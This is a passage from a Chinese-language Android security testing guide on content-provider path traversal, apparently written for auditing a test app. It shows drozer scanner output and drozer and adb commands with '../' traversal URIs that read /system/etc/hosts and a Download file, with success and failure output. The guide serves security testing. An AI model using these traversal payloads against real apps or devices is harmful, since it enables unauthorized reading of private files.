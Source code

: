     6. openTypedAssetFile (Uri uri, String mimeTypeFilter, Bundle opts, CancellationSignal signal)
6. 确认方法中是否规避了` ../ `如果未规避那么风险成立
    - 通过查看方法中的逻辑，并且跟踪非基本数据类型的.方法调用。

#### 9.3.2、动态检测
```terminal
dz> run scanner.provider.traversal -a  com.example.tom.forbroadcast
Scanning com.example.tom.forbroadcast...
Not Vulnerable:
  content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider
  content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider/

Vulnerable Providers: /**脆弱的providers*/
  content://testin.cn/
  content://authorities
  content://testin.cn
  content://authorities/
```

drozer读取效果(成功)
```terminal
dz> run app.provider.read content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
testin.cn  ^_^
```

drozer读取效果(失败)
```terminal
dz> run app.provider.read content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
No files supported by provider at content://testin.cn/../../../../../storage/emulated/0/Download/qqqq.txt
```

#### 9.3.3、adb 文件读取效果
adb shell content    

```terminal
usage: adb shell content read --uri <URI> [--user <USER_ID>]
Example:
# cat default ringtone to a file, then pull to host
adb shell 'content read --uri content://settings/system/ringtone > /mnt/sdcard/tmp.ogg' && adb pull /mnt/sdcard/tmp.ogg
```

读取成功    

```terminal
C:\Users\Tom>adb shell content read --uri content://testin.cn/../../../../../system/etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

读取失败

```terminal
C:\Users\Tom>adb shell content read --uri content://testin.cn/../../../../../system/etc/hostsa
Error while accessing provider:testin.cn
java.io.FileNotFoundException: /../../../../../system/etc/hostsa
        at android.database.DatabaseUtils.readExceptionWithFileNotFoundExceptionFromParcel(DatabaseUtils.java:144)
        at android.content.ContentProviderProxy.openFile(ContentProviderNative.java:594)
        at com.android.commands.content.Content$ReadCommand.onExecute(Content.java:521)
        at com.android.commands.content.Content$Command.execute(Content.java:418)
        at com.android.commands.content.Content.main(Content.java:623)
        at com.android.internal.os.RuntimeInit.nativeFinishInit(Native Method)
        at com.android.internal.os.RuntimeInit.main(RuntimeInit.java:251)
```
